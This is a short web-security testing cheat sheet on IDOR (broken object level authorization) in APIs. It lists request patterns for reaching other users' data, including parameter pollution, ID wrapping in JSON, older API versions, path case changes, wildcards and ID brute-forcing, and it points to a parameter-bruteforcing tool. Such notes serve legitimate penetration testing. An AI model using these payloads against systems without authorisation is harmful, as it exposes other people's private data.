 IDOR API TESTING

**API1:2019 Broken Object Level Authorization**

- Add parameter to the endpoint

```html
GET /api_v1/messages -> 401
vs 
GET /api_v1/messages?user_id=victim_uuid -> 200
```

**Note**: Useful tool to bruteforce common IDOR URL parameter names [Arjun](https://github.com/s0md3v/Arjun).


- HTTP Parameter pollution

```html
GET /api_v1/messages?user_id=VICTIM_ID -> 401
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID -> 200

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

- Add .json to the endpoint

```html
/user_data/2341 -> 401 
/user_data/2341.json -> 200 
```

- Test on outdated API Versions

```html
/v3/users_data/1234 -> 403 
/v1/users_data/1234 -> 200 
```

Wrap the ID with an array.

```html
{“id”:111} -> 401 
{“id”:[111]} -> 200 
```

Wrap the ID with a JSON object:

```html
{“id”:111} -> 401 

{“id”:{“id”:111}} -> 200 
```

JSON Parameter Pollution:

```html
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legitid>,”user_id”:<victim>}
```

MFLAC:

```html
GET /admin/profile --> 401 

GET /ADMIN/profile --> 200 
```


- Try to send a wildcard(\*) instead of an ID.
- Check through the same corresponding mobile API endpoints for the webapp, to find uuids, if you need them to complete the IDOR exploitation
- Many times there will be endpoints to translate emails into GUID's, check for those
- If it is a number id, be sure to test through a large amount of numbers, instead of just guessing
- If endpoint has a name like /api/users/myinfo, check for /api/admins/myinfo
- Replace request method with GET/POST/PUT

